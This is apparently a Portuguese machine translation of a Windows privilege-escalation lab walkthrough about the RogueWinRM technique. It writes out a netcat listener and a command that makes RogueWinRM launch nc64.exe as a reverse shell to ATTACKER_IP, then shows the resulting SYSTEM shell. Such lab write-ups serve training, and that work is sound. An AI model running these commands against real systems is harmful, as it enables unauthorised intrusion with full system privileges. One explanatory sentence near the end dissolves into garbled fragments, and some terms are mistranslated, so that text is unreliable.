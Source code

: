 http://MACHINE_IP/

Podemos usar o web shell para verificar os privilégios atribuídos da conta comprometida e confirmar que temos os dois privilégios de interesse para esta tarefa:

Webshell impersonate privileges

Para usar o RogueWinRM, primeiro precisamos carregar o exploit para a máquina de destino. Para sua conveniência, isso já foi feito, e você pode encontrar o exploit no C:\tools\Pasta.

A exploração RogueWinRM é possível porque sempre que um usuário (incluindo usuários não privilegiados) inicia o serviço BITS no Windows, ele cria automaticamente uma conexão à porta 5985 usando privilégios SISTEMA. A porta 5985 é normalmente usada para o serviço WinRM, que é simplesmente uma porta que expõe um console Powershell a ser usado remotamente através da rede. Pense nisso como SSH, mas usando Powershell.

Se, por algum motivo, o serviço WinRM não estiver sendo executado no servidor da vítima, um invasor pode iniciar um serviço WinRM falso na porta 5985 e pegar a tentativa de autenticação feita pelo serviço BITS ao iniciar. Se o atacante tiver privilégios de SeImpersonate, ele poderá executar qualquer comando em nome do usuário de conexão, que é SISTEMA.

Antes de executar o exploit, vamos iniciar um ouvinte netcat para receber um shell reverso na máquina do nosso atacante:
Kali Linux em Inglês

user@attackerpc$ nc -lvp 4442


E, em seguida, use nosso shell web para acionar o exploit RogueWinRM usando o seguinte comando:

c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"

RogueWinRM exploit execution

Nota: A exploração pode levar até 2 minutos para funcionar, então o seu navegador pode parecer sem resposta por um pouco. Isso acontece se você executar o exploit várias vezes, pois ele deve esperar que o serviço BITS pare antes de inicá-lo novamente. O serviço BITS irá parar automaticamente após 2 minutos de partida.

O que é -pparâmetro especifica o executável a ser executado pelo exploit, que é nc64.exeNeste caso. O que é -aparâmetro é usado para passar argumentos para o executável. Uma vez que queremos que o nc64 estabeleça um shell reverso contra a nossa máquina atacante, os argumentos para passar para o netcat serão -e cmd.exe ATTACKER_IP 4442- A . (í a questão: es. , , , íntepeo. . E. . es. sobre a questão . (em, proprio

Se tudo estiver configurado corretamente, você deve esperar um shell com privilégios SYSTEM:
Kali Linux em Inglês

user@attackerpc$ nc -lvp 4442
Listening on 0.0.0.0 4442
Connection received on 10.10.175.90 49755
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
nt authority\system

Usando qualquer um dos três métodos discutidos nesta tarefa, obtenha acesso à área de trabalho do Administrador e colete a bandeira. Não se esqueça de inserir a bandeira no final desta tarefa.